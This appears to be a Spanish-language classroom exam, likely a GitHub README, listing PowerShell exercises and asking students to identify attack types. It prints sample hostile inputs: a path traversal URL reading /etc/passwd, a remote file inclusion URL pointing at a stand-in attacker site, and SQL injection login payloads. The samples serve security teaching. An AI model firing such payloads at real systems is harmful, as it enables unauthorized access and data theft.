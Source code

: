 # Examen de la segunda evaluación
- Resuelve en PowerShell lo siguiente:
  - Dime si hay un antivirus instalado
  - Cómo compruebas que están funcionando los equipos de una red
  - Realiza un programa que cifre de forma sencilla
  - Simula la recuperación de un dato que se ha perdido
  - Sabes detectar impresoras en la red?, cómo?
  - Realiza un login que incorpore una función de hash
  - Realizar un sistema de copia de seguridad
  - Ver si un programa se está ejecutando viendo el nombre del producto
- ¿Cómo se llama esto?
  - http://vulnerable_host/preview.php?file=../../../../etc/passwd
  - http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
  - http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 
  - SELECT * FROM Users WHERE Username='1'OR '1'= '1'AND Password='1'OR '1'= '1'
